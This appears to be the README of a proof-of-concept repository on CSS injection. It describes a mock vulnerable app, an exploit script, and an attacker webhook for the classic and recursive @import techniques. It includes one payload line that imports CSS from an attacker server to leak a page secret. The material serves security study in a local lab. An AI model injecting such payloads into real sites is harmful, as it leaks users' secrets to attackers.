 # c5517n
CSS Injection.

# Classic
## Overview
An example of a classic CSS Injection attack.
The attacker needs to have the user POST the attack vector every time.


## Usage
1. Run `attacker/server.py` and `user/server.py`.
1. Run `attacker/exploit.py`.
1. Post the attack vector generated by `attacker/exploit.py` to `0.0.0.0:8080`, the leaked secret will be displayed on the console of `attacker/server.py`. 
1. Enter the leaked secret into `attacker/exploit.py` and continue the attack.
1. Loop...

## Files
- `user/server.py`: Mock web application that has CSS Injection vulnerability.
- `attacker/exploit.py`: Generates a CSS Injection attack vector and copies it to the clipboard.
- `attacker/server.py`: Webhook to collect secret.

# Recursive
## Overview
An example of CSS Injection using Recursive Import technique.

## Usage
1. Run `attacker/server.py` and `user/server.py`.
1. Post the attack vector: `<style>@import url('http://0.0.0.0:8081/css/0.css')</style>`.
1. Leakage continues recursively due to CSS import

## Files
- `user/server.py`: Mock web application that has CSS Injection vulnerability.
- `attacker/server.py`: Webhook to collect secret.
- `attacker/templates/tmpl.jinja2`: Attack vector(CSS) template.

## Reference
[m---/onsen](https://github.com/m---/onsen)